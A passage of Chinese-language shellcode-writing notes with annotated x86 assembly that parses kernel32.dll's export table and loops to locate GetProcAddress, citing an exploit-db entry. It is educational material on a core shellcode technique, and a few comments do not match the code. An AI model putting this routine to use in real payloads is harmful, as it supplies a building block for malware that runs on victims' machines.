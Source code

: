   + kernel32.dll导出表的地址

    ```asm
    ; Find the address of the Export Table within kernel32.dll
     mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader
     add ebx, eax            ; EBX = &NewEXEHeader
     mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable
     add ebx, eax            ; EBX = &ExportTable
     ; Find the address of the Name Pointer Table within kernel32.dll
     mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable
     add edi, eax            ; EDI = &NamePointerTable
     mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame
    
    ; Find the address of the Ordinal Table
     mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable
     add ecx, eax            ; ECX = &OrdinalTable
     mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame
    
    ; Find the address of the Address Table
     mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable
     add edx, eax            ; EDX = &AddressTable
     mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
    
    ; Find Number of Functions within the Export Table of kernel32.dll
     mov edx, [ebx+0x14]     ; EDX = Number of Functions
     mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
    ```

  + 找到函数的入口点[参考](https://www.exploit-db.com/exploits/48355)

    ```asm
    jmp short functions
    
    findFunctionAddr:
    ; Initialize the Counter to prevent infinite loop
     xor eax, eax            ; EAX = Counter = 0
     mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
    ; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
    searchLoop:
     mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
     mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
     xor ecx, ecx            ; ECX = 0x00000000
     cld                     ; clear direction flag - Process strings from left to right
     mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
     add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
     add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
     repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
     jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
     inc eax                 ; else Counter ++
     cmp eax, edx            ; Does EAX == Number of Functions?
     jb searchLoop           ;   If EAX != Number of Functions, then restart the loop
    
    found:
    ; Find the address of WinExec by using the last value of the Counter
     mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
     mov edx, [ebp-0x10]     ; EDX = &AddressTable
     mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
     mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
     add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
     ret
    